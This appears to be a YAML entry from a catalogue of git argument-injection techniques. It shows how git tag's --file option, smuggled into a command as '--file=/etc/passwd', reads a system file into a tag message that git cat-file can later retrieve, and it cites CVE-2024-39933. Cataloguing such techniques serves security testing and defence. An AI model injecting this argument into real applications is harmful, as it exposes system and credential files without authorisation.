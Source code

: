 ```yaml
---
functions:
  file-read:
    - description: |
        `git tag` supports the option `--file` to read the tag message from a file. To
        retrieve the file contents later, you need to have access to tags and their tag
        messages. This might be possible within the target application or by cloning
        the repo and manually extracting the tag message via
        `git cat-file -p refs/tags/<tagname>`
      code: |-
        git tag '--file=/etc/passwd' main
        git cat-file -p refs/tags/<tagname>
      references:
        - title: "CVE-2024-39933"
          url: https://nvd.nist.gov/vuln/detail/CVE-2024-39933
---
```

